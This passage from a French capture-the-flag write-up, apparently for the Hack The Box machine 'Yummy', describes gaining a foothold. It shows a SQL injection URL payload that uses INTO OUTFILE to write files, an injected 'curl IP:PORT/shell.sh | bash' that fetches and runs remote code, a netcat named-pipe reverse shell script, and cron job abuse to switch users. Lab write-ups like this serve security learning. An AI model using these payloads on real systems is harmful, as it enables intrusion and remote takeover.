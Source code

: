 ```bash
else
    /usr/bin/rm -f /data/scripts/dbstatus.json
    /usr/bin/echo "The automation failed in some way, attempting to fix it."
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
```

## Accès Initial (Shell en tant que mysql)

Nous pouvons donc insérer une chaîne dans `dbstatus.json` pour nous assurer que le fichier existe et déclenche l'exécution du script dans `/data/scripts`.

1. Nous injectons une chaîne dans `/data/scripts/dbstatus.json` avec `SELECT "hacked" INTO OUTFILE '/data/scripts/dbstatus.json';`. Le payload complet est le suivant:

```
/admindashboard?s=aa&o=ASC%3b+select+"hacked;"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3b
```

![payload to insert content](/images/HTB-Yummy/insert_content.png)

2. Ensuite, nous insérons une commande dans le script fixateur pour obtenir un reverse shell avec `curl IP:PORT/shell.sh | bash;`

> Nous aurons besoin de configurer un serveur web, la commande téléchargera notre script malveillant et l'exécutera sur la cible.

```
/admindashboard?s=aa&o=ASC%3b+select+"curl+{IP}:{PORT}/shell.sh+|bash%3b"+INTO+OUTFILE++'/data/scripts/fixer-v___'+%3b 
```

**FICHIER REVERSE SHELL**
```bash
#!/bin/bash
 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc {IP} {PORT} >/tmp/f
```

![command injection](/images/HTB-Yummy/cmd_injection_yummy.png)

Sur notre listener, nous recevons une connexion en tant que `mysql`.

![Shell as myql](/images/HTB-Yummy/foothold.png)

### Shell en tant que www-data

Nous savons qu'il y a un autre job cron qui exécute `/data/scripts/app_backup.sh` en tant que `www-data` toutes les minutes. Nous pouvons donc remplacer `app_backup.sh` par un fichier reverse shell pour passer à cet utilisateur.

```
*/1 * * * * www-data /bin/bash /data/scripts/app_backup.sh
```
